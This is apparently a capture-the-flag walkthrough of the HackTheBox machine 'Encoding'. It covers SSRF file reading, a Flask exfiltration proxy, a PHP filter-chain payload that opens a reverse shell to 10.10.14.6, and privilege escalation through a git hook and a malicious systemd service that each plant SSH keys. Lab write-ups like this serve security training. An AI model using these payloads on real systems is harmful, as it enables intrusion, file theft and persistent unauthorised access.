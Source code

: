 # HTB: Encoding - Full Walkthrough

## Recon

### Nmap Scan
```
nmap -p- --min-rate 10000 10.10.11.198
nmap -p 22,80 -sCV 10.10.11.198
```
- Ports open: 22 (SSH), 80 (HTTP)
- Hostname discovered: `haxtables.htb`

### Website Enumeration
- `/index.php?page=...` suggests PHP file includes
- Site for "string and number converter"
- `api.haxtables.htb` referenced

### Subdomain Enumeration
```
wfuzz -u http://10.10.11.198 -H "Host: FUZZ.haxtables.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 1999
```
- Discovered: `api.haxtables.htb`, `image.haxtables.htb`

### Directory Bruteforce
```
feroxbuster -u http://haxtables.htb -x php
```
- Found: `/handler.php`, `/includes/`, etc.

## Shell as www-data

### SSRF Discovery
- `/handler.php` POSTs to API using `uri_path`
- SSRF by injecting `@10.10.14.6` into `uri_path`

### File Read via `file://`
```python
json_data = {"action": "str2hex", "file_url": "file:///etc/hostname"}
```
- File read works, use Flask proxy to exfil files easily

### Flask Proxy
```python
from flask import Flask, Response
import requests
...
@app.route('/<path:file>')
def get_file(file):
    req_data = {"action": "str2hex", "file_url": f"file:///{file}"}
    resp = requests.post("http://api.haxtables.htb/v3/tools/string/index.php", json=req_data)
    return Response(bytes.fromhex(resp.json()['data']), content_type="application/octet-stream")
```

### LFI to RCE via Filter Chain
```bash
python php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?>'
```
- SSRF to include malicious filter payload to trigger RCE

## Shell as svc

### Privilege Escalation via Git Hook
- `www-data` can sudo as `svc` via `/scripts/git-commit.sh`
- Git repo in `/var/www/image/.git`, writable by `www-data`
- Write `post-commit` hook to insert SSH key for `svc`
```bash
echo 'mkdir -p /home/svc/.ssh
echo "<pubkey>" >> /home/svc/.ssh/authorized_keys
chmod 600 /home/svc/.ssh/authorized_keys' > .git/hooks/post-commit
chmod +x .git/hooks/post-commit
```
- Modify work-tree to include new file:
```bash
git --work-tree /etc add /etc/hostname
sudo -u svc /var/www/image/scripts/git-commit.sh
```
- SSH as `svc`

## Shell as root

### Privilege Escalation via Systemd
- `svc` can run `sudo systemctl restart *`
- `/etc/systemd/system` is writable by `svc`

### Malicious Service
```ini
# /etc/systemd/system/0xdf.service
[Unit]
Description=0xdf command service

[Service]
ExecStart=/tmp/0xdf
Type=simple
Restart=always

[Install]
WantedBy=multi-user.target
```
```bash
# /tmp/0xdf
mkdir -p /root/.ssh
echo '<pubkey>' > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
touch /tmp/script_ran
chmod +x /tmp/0xdf
```
- Trigger with: `sudo systemctl restart 0xdf`

## Root Access
- SSH as `root` using injected key
- Read `/root/root.txt`